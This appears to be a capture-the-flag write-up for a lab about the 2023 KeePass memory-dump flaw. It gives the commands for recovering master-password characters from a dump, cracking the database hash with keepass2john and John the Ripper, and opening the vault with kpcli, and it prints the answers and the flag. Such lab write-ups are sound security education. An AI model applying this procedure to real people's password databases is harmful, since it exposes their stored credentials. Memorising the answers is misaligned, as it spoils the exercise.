

Now what right!
If we are go to google and type KeyPass password manager 2023 we got to know that it was vulnerble so we are gonna check what vulnerbility there is.



So after searching we got to know that in this vulnerbility we can recover ``master key`` from the dump that encrypts the database and can be used to decrypt the database.   
So we understood that we need to extract the master key from the dump.   
There is a tool on [github](https://github.com/JorianWoltjer/keepass-dump-extractor) that can we use to extract the master key from it.  
Now we are gonna run this tool on our memory dump file to extract the password.

Run this command
```bash
~/.cargo/bin/keepass-dump-extractor 1337.dmp -f all > wordlist.txt
```
Make sure you have installed this tool.After running this command we got result something like this.



### Q1 : What's the initial part of the password?
```bash
NoWaYIcanF0rGetThis123
```
Ok but this is not the acutal password these are characters that may or may not belong to the password.In order to get the password we are gonna make every combination of these characters and than brute force on the database.

```bash
~/.cargo/bin/keepass-dump-extractor 1337.dmp -f all > wordlist.txt
```

Runing this command will give us combination in a file named as ``wordlist.txt``



We are not gonna brute force directly on the database We are gonna use ``keepass2john`` to extract the password-verification information from Database1337.kdbx

```bash
keepass2john Database1337.kdbx > databasehash.txt
```

After running this command we will get the password-verification hash and now are gonna crack the hash with our wordlist file.



we will now gonna run these commands.
```bash
john --wordlist=wordlist.txt databasehash.txt
```

```bash
john --show databasehash.txt
```



We got the missing character.  
Now we need one more tool to use the database file which is ``kpcli``.  
We can install it by running 
```bash
sudo apt install kpcli
```
After that we are gonna run this command to uss the database file.
```bash
kpcli --kdb Database1337.kdbx
```
Run this and it will ask for the password.Enter the password that we got through ``john``  



We are in the database now.
Now run the commands in the following screenshot to get the flag.



### Q2 : What's the flag?
```bash
THM{B3tt3r_Upd4t3_Y0ur_K33p455}
```
